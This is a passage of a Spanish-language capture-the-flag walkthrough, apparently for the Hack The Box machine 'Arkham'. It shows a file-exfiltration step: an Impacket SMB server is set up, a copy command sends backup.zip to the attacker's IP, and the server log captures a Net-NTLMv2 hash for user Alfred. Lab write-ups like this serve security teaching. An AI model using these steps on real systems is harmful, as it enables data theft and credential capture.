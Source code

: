 Profundizando en el directorio `C:\Users\Alfred` encontramos un archivo `.zip`:

```powershell
c:\Users\Alfred\Downloads\backups>dir
 Volume in drive C has no label.
 Volume Serial Number is FA90-3873

 Directory of c:\Users\Alfred\Downloads\backups

04/27/2021  10:24 PM    <DIR>          .
04/27/2021  10:24 PM    <DIR>          ..
02/03/2019  08:41 AM           124,257 backup.zip
               1 File(s)        124,257 bytes
               2 Dir(s)   8,722,964,480 bytes free

c:\Users\Alfred\Downloads\backups>
```

Movámoslo a nuestra máquina, probando mediante una carpeta compartida con **SMB**:

```bash
❭ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Obtenemos:

```powershell
c:\Users\Alfred\Downloads\backups>copy backup.zip \\10.10.14.14\smbFolder\backup.zip
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
        0 file(s) copied.

c:\Users\Alfred\Downloads\backups>
```

Y en el servidor **SMB** recibimos el hash [Net-NTLMv2](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) del usuario **Alfred**, pero intentando crackearlo no logramos nada :(

```bash
...
[*] Incoming connection (10.10.10.130,49707)
[*] AUTHENTICATE_MESSAGE (ARKHAM\Alfred,ARKHAM)
[*] User ARKHAM\Alfred authenticated successfully
[*] Alfred::ARKHAM:aaaaaaaa:7788c08b972d046d3204856b5e605c9c:010100000000000080a2169c763ad701bdc49d05e3f6764400000000010010007a0072006e00520070007200720041000200100062007a0069004c0049004d004e004f00030010007a0072006e00520070007200720041000400100062007a0069004c0049004d004e004f000700080080a2169c763ad70106000400020000000800300030000000000000000000000000200000501679800e3ec4fec38e468143ba78a69d3112f8176260dbae0bf0d0fce82c1d0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000
[*] Closing down connection (10.10.10.130,49707)
...
```
